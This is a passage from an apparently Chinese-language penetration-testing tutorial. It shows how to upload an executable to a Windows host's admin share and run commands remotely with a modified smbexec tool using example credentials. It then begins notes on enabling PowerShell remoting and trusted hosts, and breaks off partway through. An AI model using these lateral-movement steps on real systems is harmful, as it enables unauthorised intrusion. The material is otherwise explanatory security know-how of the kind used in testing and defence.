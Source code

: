 ```
test.exe 192.168.40.137 test testtest whoami c$

```

2、使用流程
------

（1）上传execserver.exe至c:\windows

```
copy execserver.exe \\192.168.40.137\c$\windows

```

（2）远程执行

```
test.exe 192.168.40.137 test testtest whoami c$

```

如图6

![这里写图片描述](http://drops.javaweb.org/uploads/images/5f30a6fb15e4e6d6ff739067ec8d2062e16ff5ac.jpg)

**最终我们通过改造的smbexec，突破目标主机限制，成功远程执行程序。**

_程序源码下载链接：_

[smbexec_source.zip](http://static.wooyun.org//drops/20150724/2015072404442894558smbexec_source.zip)

0x08 补充
=======

* * *

1、powershell remoting
---------------------

实现在目标主机远程执行程序后，可对目标主机开放powershell remoting，用作远程连接

条件：

```
远程连接会有痕迹
本机要开启winRM服务

```

命令汇总：

列出所有远程信任主机

```
powershell Get-Item WSMan:\localhost\Client\TrustedHosts

```

设置信任所有主机
